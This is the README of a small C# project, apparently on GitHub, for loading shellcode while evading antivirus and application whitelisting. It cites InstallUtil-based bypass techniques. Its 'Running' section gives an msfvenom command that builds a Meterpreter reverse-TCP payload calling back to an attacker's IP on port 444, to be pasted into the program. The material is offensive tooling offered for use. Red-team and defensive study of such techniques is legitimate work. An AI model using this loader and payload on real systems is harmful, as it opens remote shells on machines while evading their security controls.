 # curly-bois-shell-script
A quick C# console app for dropping shell code in to...

Taken some inspiration from this blog post;

https://www.blackhillsinfosec.com/three-simple-disguises-for-evading-antivirus/



https://www.blackhillsinfosec.com/how-to-bypass-application-whitelisting-av/

This utilizes Casey Smith's `InstallUtil-ShellCode.cs`

(now gone)
https://gist.githubusercontent.com/subTee/408d980d88515a539672/raw/5e71ada8732cc623cbe3858ebfe41b904d233f4c/InstallUtil-ShellCode.cs

https://web.archive.org/web/20170330212151/http://subt0x10.blogspot.com/2015/08/application-whitelisting-bypasses-101.html

https://github.com/FuzzySecurity/DefCon24/blob/master/Workshop-Walkthrough.txt


## Setting up

Project is set up for DotNet Core 2.0.3;
https://github.com/dotnet/core/blob/master/release-notes/download-archives/2.0.3.md


## Running

You're going to need to generate some shell code, so give this a crank;
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=YOUR_IP lport=444 -f csharp > shellcode.txt
```
Next you need to drop it in to Program.cs


